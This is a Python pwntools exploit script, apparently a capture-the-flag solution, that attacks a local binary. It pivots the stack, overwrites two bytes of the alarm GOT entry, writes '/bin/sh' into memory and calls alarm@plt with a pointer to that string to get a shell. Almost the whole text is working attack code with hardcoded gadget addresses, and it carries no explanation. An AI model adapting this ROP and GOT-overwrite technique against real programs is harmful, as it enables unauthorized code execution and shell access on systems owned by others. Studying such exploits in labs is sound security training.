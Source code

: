 ```python
            b *0x401261
            continue
        ''')

        pause()

    # GDB()

    p = process(exe.path)   

    pop_rdi = 0x401247
    pop_rbp = 0x40119d
    ret = 0x40101a
    alarm_got = 0x404020

    payload = flat(
        b'A' * 0x20, 
        alarm_got + 0x40, 
        0x401249
    )

    time.sleep(0.1)
    log.info('input 1: stack pivot')
    p.send(payload)

    payload = flat(
        alarm_got + 0x100, 
        0x401249,
        b'B' * 0x10,
        alarm_got + 0x20, 
        0x401249
    )

    time.sleep(0.1)
    log.info('input 2: stack pivot new area')
    p.send(payload)

    log.info('input 3: change 2 bytes')
    p.send(b'\xc0\x41')

    # payload = flat(
    #     b'/bin/sh\x00', 
    #     pop_rdi, 
    #     alarm_got + 0xe0, 
    #     exe.plt['alarm'],
    #     alarm_got + 0xe0, 
    #     0x401249
    # )

    payload = flat(
        0,
        b'/bin/sh\x00',
        b'C' * 0x10, 
        0xdeedbeef, 
        pop_rdi, 
        alarm_got + 0xe8, 
        exe.plt['alarm']
    )

    time.sleep(0.1)
    log.info('input 4: write /bin/sh')
    p.send(payload)

```